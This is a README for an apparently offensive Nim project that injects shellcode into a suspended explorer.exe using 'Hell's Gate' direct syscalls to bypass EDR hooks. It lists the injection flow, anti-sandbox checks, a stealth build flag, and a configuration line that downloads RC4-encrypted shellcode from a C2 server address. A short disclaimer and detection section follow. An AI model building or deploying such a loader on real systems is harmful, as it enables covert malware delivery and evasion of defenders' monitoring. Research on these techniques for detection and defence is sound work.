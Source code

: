 # Shellcode Injection via Direct Syscalls (Hell's Gate)

## Overview

This project demonstrates advanced Windows process injection techniques using direct system calls to bypass EDR (Endpoint Detection and Response) hooks. It implements the "Hell's Gate" technique to extract syscall numbers directly from `ntdll.dll` and execute them without going through hooked API functions.

## Features

- **Direct Syscall Execution**: Bypasses userland API hooks by invoking syscalls directly
- **Hell's Gate Technique**: Dynamically extracts syscall numbers from ntdll.dll at runtime
- **Process Hollowing**: Creates a suspended process and injects shellcode via APC (Asynchronous Procedure Call)
- **RC4 Encryption**: Downloads and decrypts shellcode from a remote server
- **Anti-Sandbox**: Basic memory checks to detect virtual environments

## Technical Implementation

### Direct Syscalls

The project implements three core NT functions via direct syscalls:

1. **NtAllocateVirtualMemory** - Allocates memory in the target process
2. **NtWriteVirtualMemory** - Writes shellcode to allocated memory
3. **NtQueueApcThread** - Queues an APC to execute the shellcode

### Syscall Stub Generation

For each syscall, the code:
1. Extracts the syscall number from the corresponding function in ntdll.dll
2. Validates the function prologue pattern (`4C 8B D1 B8`)
3. Generates a minimal assembly stub in executable memory
4. Executes the syscall directly

### Injection Flow

```
1. Download encrypted shellcode from C2 server
2. Decrypt using RC4
3. Create suspended explorer.exe process
4. Allocate RWX memory via NtAllocateVirtualMemory (syscall)
5. Write shellcode via NtWriteVirtualMemory (syscall)
6. Queue APC via NtQueueApcThread (syscall)
7. Resume thread to trigger execution
```

## Requirements

- Windows 10/11 (x64)
- Nim compiler
- Required Nim packages:
  - `winim`
  - `httpclient`
  - Custom RC4 module

## Compilation
Debug :
```bash
nim c main.nim
```

For smaller binary size:
```bash
nim c -d:stealth3 main.nim
```

## Configuration

Update the C2 server URL in the code:
```nim
data = client.getContent("http://192.168.1.19:8080/api_local")
```

Update the RC4 key:
```nim
key : string = "kernel32.dll"
```

## Disclaimer

⚠️ **FOR EDUCATIONAL PURPOSES ONLY**

This code is provided for educational and research purposes to understand advanced malware techniques and improve defensive security measures. Unauthorized use of this code for malicious purposes is illegal and unethical.

- Only use in authorized environments (your own lab, with explicit permission)
- Never deploy against systems you don't own or have written permission to test
- The authors assume no liability for misuse of this code

## Detection & Defense

Security professionals can detect this technique by:

- Monitoring for direct syscall execution patterns
- Detecting unusual assembly stub creation in memory
- Analyzing process creation with suspended threads
- Monitoring APC queue operations
- Network traffic analysis for encrypted payload downloads

## License

This project is licensed under the MIT License - see the LICENSE file for details.

This project was generated in part with AI | Contributions and improvements welcome
